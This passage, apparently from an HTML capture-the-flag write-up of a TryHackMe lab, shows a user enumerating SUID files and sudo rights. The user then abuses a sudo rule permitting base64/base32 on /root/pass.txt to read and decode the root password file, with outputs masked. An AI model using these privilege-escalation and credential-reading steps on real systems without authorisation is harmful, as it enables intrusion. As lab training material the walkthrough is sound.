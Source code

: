 fred@b3dr0ck:~$ 
</pre>
</li>
<li>
<p>We're in as&nbsp;<strong>fred</strong>! Let's get next flag:&nbsp;<strong>fred.txt</strong></p>
</li>
<li>
<pre>fred@b3dr0ck:~$ cat fred.txt
cat fred.txt
THM{***}</pre>
</li>
<li>Woot! Let's keep going!</li>
</ul>
</li>
<li>Let's hunt around to see what&nbsp;<strong>fred</strong> can do...
<ul>
<li>Start searching for&nbsp;<strong>SUID</strong> files</li>
<li>
<pre>fred@b3dr0ck:~$ find / -type f -perm -04000 2&gt;/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/bin/chsh
/usr/bin/umount
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/mount
/usr/bin/fusermount
/usr/bin/at
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/su</pre>
</li>
<li>Hmm, nothing obvious here that we can find on&nbsp;<strong>GTFOBins</strong>... What else can we try? Let's check if&nbsp;<strong>fred</strong> can use&nbsp;<strong>sudo</strong></li>
<li>
<pre>fred@b3dr0ck:~$ sudo -l
Matching Defaults entries for fred on b3dr0ck:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fred may run the following commands on b3dr0ck:
    (ALL : ALL) NOPASSWD: /usr/bin/base32 /root/pass.txt
    (ALL : ALL) NOPASSWD: /usr/bin/base64 /root/pass.txt</pre>
</li>
<li>Interesting, user&nbsp;<strong>fred</strong> is allowed to use&nbsp;<strong>sudo</strong> for commands&nbsp;<strong>base32</strong> and&nbsp;<strong>base64</strong>, against what looks like root password&nbsp;<strong>/root/pass.txt</strong></li>
<li>Let's try to see what's in that file...</li>
<li>
<pre>fred@b3dr0ck:~$ sudo base64 /root/pass.txt | base64 --decode
************************************************************************</pre>
</li>
<li>Ok cool, that output still looks encoded... But looks more like&nbsp;<strong>base32</strong> than&nbsp;<strong>base64</strong>, let's keep decoding</li>
<li>
<pre>fred@b3dr0ck:~$ sudo base64 /root/pass.txt | base64 --decode | base32 --decode
********************************************</pre>
</li>